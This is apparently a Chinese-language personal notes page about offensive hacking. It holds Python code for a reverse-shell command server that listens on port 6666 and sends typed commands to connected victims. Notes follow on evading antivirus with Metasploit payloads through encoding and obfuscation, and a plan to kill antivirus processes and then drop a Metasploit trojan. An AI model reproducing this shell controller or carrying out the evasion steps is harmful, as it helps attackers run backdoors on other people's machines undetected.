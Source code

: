 - server---放服务器上接收shell

```
from socket import *
from os import *

#服务端发送命令

s=socket(AF_INET,SOCK_STREAM)#IVP4 寻址  tcp协议
s.bind(('',6666))#绑定端口
s.listen(1)#开始监听一个队列
while True:
    sock,addr=s.accept()#返回两次 第一次返回连接地址 二 端口号
    print ('客户端：',addr)
    while True:

        code=input('[+] cmd >>:')
        sock.send(code.encode())
        if code=='exit':
            s.close()
            break
        result=sock.recv(10240)
        print(result.decode())


s.close()
```


### msf免杀

大体了解了一下杀软的查杀原理

1. 通过文件哈希值或部分哈希值匹配病毒库

就是说常用的🐎，只要在杀软病毒库内匹配到了相同的哈希值，就能查杀为病毒。即使改动一部分使得整体哈希值不同，在截取文件部分哈希值也有很多匹配成功的情况下也会查杀。

应对就是用混淆代码或编码，再重新编译以变化哈希值。只要匹配不到就能绕过。

2. 通过识别危险函数查杀

大概就是看应用本身所使用的函数有无危险函数之类的。

3. 动态检测

动态检测通过hook系统关键api，如果有应用触发就报毒，好像现在都是动态检测上传虚拟机监测进程，再传病毒库再静态查杀。比如virustotal的查杀系统。

msf免杀则基本通过编码来的，不过编码的msf后门已经8太行了（太通用了？），我试了几种都被查杀完了，有几个基于msf的免杀工具，还在尝试中

### Antivirus_R3_bypass

主要是这篇文章

https://www.freebuf.com/vuls/220997.html

了解了一下杀软不能taskkill的原理（虽然逆向不怎么懂所以不是很看得懂

我也不概述了写那篇文章的师傅描述的非常清楚了。（我自己还是有点测不来）

我的思路如果是利用这个的话就先下bypass把杀软全关了，然后就直接传msf🐎起飞（windows defence好像不拦msf的🐎，直接芜湖~)

### 配合模拟鼠标用

配合模拟鼠标解决杀软的拦截，不过我觉得稍微有点难实现，分辨率不同，不同电脑，不同杀软，都有可能让点击坐标不同。到时候再试试

### 其他

一些免杀方法像加免杀壳呀之类的绕过杀软。。都跟逆向有关系（逆向基础为0）就没有深究了。


